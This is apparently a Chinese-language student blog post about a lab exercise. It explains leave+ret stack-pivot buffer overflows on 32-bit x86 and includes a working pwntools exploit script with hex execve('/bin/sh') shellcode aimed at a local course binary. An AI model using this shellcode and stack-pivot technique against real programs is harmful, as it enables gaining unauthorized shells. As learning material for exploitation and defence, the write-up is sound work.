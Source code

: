 ```yaml
---
title: leave + ret 栈溢出
date: 2024-04-08
categories: [UCAS_LESSION, ADV_VULUN]
tags: [stackoverfolw,pwn]     # TAG names should always be lowercase
---
```


# 0x01 why record
今天实验课上做了leave+ret栈溢出，课上没有做出来，课下想明白了，特此记录一下

# 0x02 原理分析
leave指令等将于这两条指令：
    mov esp, ebp
    pop ebp
即为
    esp = ebp + 4
    ebp = [ebp]
这里一直没想明白 因为没想到pop回导致esp+4(32位)

想明白这个就很容易了 esp = ebp + 4 => esp 指向了ret_addr的位置  
如果这里修改esp为shellcode的地址， 溢出就完成了

# 0x03 exp分析
```python
#!/usr/bin/env python
#coding=utf-8

from pwn import *
import sys
context.arch='i386'
context.log_level='debug'
context.terminal = ['tmux', 'split', '-h']

def sendPayload(p,payload,hFile):
    hFile.write(payload)
    hFile.flush()
    p.send(payload)

shellcode = bytes.fromhex('6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a3b5883e830cd8090')

def pwn01():
    fPayload=open("poc_ebp.txt","wb")
    p=process('./ebp_bin')
    p.settimeout(0.01)
    #gdb.attach(p)
    data_str1 = b'\x90\x90\x90\x90'+p32(0x80ECA08) + shellcode
    data_str = data_str1 + (0x117-len(data_str1))*b'A' + p32(0x80ECA00)+b'\n'
    sendPayload(p, data_str, fPayload)
    fPayload.close()
    p.interactive()

if __name__ == '__main__':
    pwn01()
```

重点是这里：
```python
data_str1 = b'\x90\x90\x90\x90'+p32(0x80ECA08) + shellcode
data_str = data_str1 + (0x117-len(data_str1))*b'A' + p32(0x80ECA00)+b'\n'
```
p32(0x80ECA00)用来覆盖ebp。因为leave指令，需要保证覆盖地址有效，且该地址+4是一个有效的返回地址。


即0x80ECA04为有效的地址，[0x80ECA04] = 0x80ECA08 正好是 shellcode的起始地址
原理不难 动态调一遍就行啦
![picture 0](/images/dae4ce81c69cbb0f35adeb14f211d5f50405d85bd966f5ea90164f38e06dbbe2.png)  

# 0x04 结束
时间不早了 洗洗睡了
